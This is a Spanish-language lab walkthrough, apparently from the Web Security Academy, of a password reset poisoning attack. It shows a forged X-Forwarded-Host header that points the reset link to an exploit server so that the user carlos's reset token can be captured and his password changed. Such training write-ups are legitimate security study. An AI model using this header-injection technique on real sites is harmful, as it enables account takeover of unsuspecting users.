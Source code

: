 ![20250806010926.png](20250806010926.png)

En el sitio web encontramos un panel de login el cual tiene la opción de `Forgot password`

![20250807212003.png](20250807212003.png)

Al hacer click en esta opcion nos da a para ingresar un nombre de usuario o email.

![20250807212032.png](20250807212032.png)

En nuestro servidor de correo este nos da link con un token para resetear la password

![20250807211707.png](20250807211707.png)

Ahora podemos cambiar nuestra contraseña

![20250807212057.png](20250807212057.png)

Vamos al `BurpSuite`, en este podemos ver las solicitudes de cambio de contraseña.

![20250807211743.png](20250807211743.png)

Para explotar el sitio web, debemos entende de que es el `X-Forwarded`. Este es una cabecera HTTP no estándar (pero muy usada) que los **proxies inversos** (como Nginx, HAProxy, AWS ELB, etc.) utilizan para **preservar el nombre del host original** en una solicitud HTTP cuando el proxy redirige la petición a otro servidor.

Entendido esto, podemos hacer uso de esta cabecera para enviar la solicitud a nuestro servidor malicioso.

```c
X-Forwarded-Host: exploit-0a2a0001048b774f83f809d501de006d.exploit-server.net
```

Al enviar la solicitud vemos que este se envió correctamente.

![20250807211759.png](20250807211759.png)

En nuestro servidor malicioso también vemos los logs de la solicitud y un token para poder reestablecer la contraseña del usuario `carlos`

![20250807211829.png](20250807211829.png)

```c
https://[LAB].web-security-academy.net/forgot-password?temp-forgot-password-token=[token]
```

![20250807212414.png](20250807212414.png)

